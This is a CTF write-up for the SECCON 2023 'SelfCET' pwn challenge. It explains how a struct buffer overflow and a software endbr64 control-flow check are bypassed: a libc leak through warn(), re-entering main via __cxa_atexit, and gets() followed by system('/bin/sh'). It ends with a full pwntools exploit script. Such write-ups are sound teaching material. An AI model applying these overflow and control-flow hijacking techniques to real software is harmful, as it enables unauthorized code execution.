 +++
title = "SECCON CTF Quals 2023: SelfCET (pwn)"
author = "Marco Pellero, Domingo Dirutigliano"
tags = ["pwn"]
date = "2023-09-28"
+++

This challenge is a simple XOR encoder: it reads a key and a message, both 32-byte strings, XORs them together and prints the result.
Example:
```
[KEY] 888
[MSG] nop
[OUT] VWH
```

The key and the message are stored in a struct with some error-handling features:
```c
struct {
	char key[32];
	char buf[32];
	const char* error;
	int status;
	void (*throw)(int, const char*, ...);
} ctx_t;
```

When an error occurs `error` is set to a relevant message, `status` is set to `EXIT_FAILURE`, a check is performed on `throw()` to prevent it from derailing control flow, and then it is called with `error` and `status` as parameters.

For example, here's how reading input from the user is implemented:
```c
void read_member(ctx_t *ctx, off_t offset, size_t size) {
	if (read(STDIN_FILENO, (void*)ctx + offset, size) <= 0) {
		ctx->status = EXIT_FAILURE;
		ctx->error = "I/O Error";
	}
	
	ctx->buf[strcspn(ctx->buf, "\n")] = '\0';
	
	if (ctx->status != 0) {
		CFI(ctx->throw)(ctx->status, ctx->error);
	}
}
```

I had never seen the type `off_t` before, it's used here to choose which field of the `ctx_t` struct to read; it just indicates the field's offset (for example, `buf`'s offset is 32).

The control-flow check performed on `throw()` is implemented as a macro `CFI` that we can see being used in the failure branch, this is what the macro looks like:
```c
#define INSN_ENDBR64 (0xF30F1EFA) /* endbr64 */
#define CFI(f) \
	({ \
		if (__builtin_bswap32(*(uint32_t*)(f)) != INSN_ENDBR64) \
			__builtin_trap(); \
		(f); \
	})
```

This is just a weird way to check that the first assembly instruction of `throw()` is `endbr64`, and crash the process if it isn't.

By googling a bit I learned about CET (Control-Flow Enforcement Technology) and CFI (Control-Flow Integrity), which are security measures used to prevent control-flow corruption techniques like ROP chains.
Put simply, if we mark the start of functions with `endbr64`, when performing a call on a function pointer (like  `throw()`) if we find that we're not jumping to an `endbr64`, we know we're performing an invalid jump, and that there has been an attempt to corrupt the control flow.
These checks are performed by the CPU and only work if the CPU, the OS, libraries, and the program itself all support and use CET; this program implements a software CET instead.

Looking at when the user input is read, we can see we have 2 buffer overflows:
```c
int main() {
	ctx_t ctx = { .error = NULL, .status = 0, .throw = err };
	
	read_member(&ctx, offsetof(ctx_t, key), sizeof(ctx));
	read_member(&ctx, offsetof(ctx_t, buf), sizeof(ctx)); // definitely OOB!
	
	encrypt(&ctx);
	write(STDOUT_FILENO, ctx.buf, KEY_SIZE);
	
	return 0;
}
```

It's reading `sizeof(ctx)` bytes instead of `sizeof(key)` and `sizeof(buf)` (both are 32 bytes). We're able to first overwrite the whole `ctx` struct, and then also overwrite 32 bytes outside of it and into main's frame pointer, though this isn't very useful since there's the canary.

Since we can overwrite `throw()`, we have an arbitrary call with 2 controlled parameters, but we have no leaks; the binary isn't PIE, but we're limited to functions starting with `endbr64`, and there aren't any useful ones in the binary itself.

We can leak the libc by setting `error` to a GOT entry, but `err()` also calls `exit()`; we need some way to leak the libc without also crashing..
We can achieve this via a partial overwrite, and by looking at `endbr64` occurrences near `err()`, i found `warn()`, which behaves like `printf()`.

So with my first payload, I'll set the status to a GOT entry (it's then passed as the first parameter to `throw()`), and overwrite the lower bytes of `throw()` to point to `warn()`.

Now `read_member()` is called again, and I can call any libc function I want.
I can't call one_gadgets because they don't start with `endbr64`, and I can't call `system()` because the first parameter must be a pointer to "/bin/sh", but it's nowhere in the binary's memory, and since `status` is an int I can only pass a 4-byte number, and libc addresses are much bigger than that.

I wasn't able to find a way to spawn a shell or read the flag from here, so I tried to find ways to jump to main again, which I can't do directly because it doesn't start with `endbr64` (`_init()` does, but it checks if it's already been called once, and if so doesn't start main).

What I ended up doing is calling `atexit()` to register `main()` as an exit handler, which means that before closing the program, `main()` will be called again, and I can perform a second stage of my attack, in which I first call `gets()` to read "/bin/sh" into memory, and then `system()` using this address.


Here's the final exploit:
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./xor")
libc = ELF("./libc.so.6")

context.binary = exe


io = process("./xor")

# leak libc by printing a GOT entry via a partial overwrite (throw goes from err() to warn())
payload = b'\n' + b'A'*63 + p64(exe.got["err"])*2 + b"\x10\x10"
io.send(payload)

io.recvuntil(b": ")
leak = u64(io.recv(6).ljust(8, b'\0'))
libc.address = leak - libc.sym["err"]
log.info(f"libc @ {hex(libc.address)}")

payload = b'\n' + b'A'*31 + flat(1, exe.sym["main"], libc.sym["__cxa_atexit"])
io.send(payload)
log.info("Registered main as an exit handler, starting again")

# read '/bin/sh' into memory so we can use it to call system()
payload = b'\n' + b'A'*63 + flat(1, exe.bss(0x100), libc.sym["gets"])
io.send(payload)
io.sendline(b"/bin/sh")

# finally, call system()
payload = b'\n' + b'A'*31 + flat(1, exe.bss(0x100), libc.sym["system"])
io.send(payload)

io.interactive()
```

Enjoy hacking!
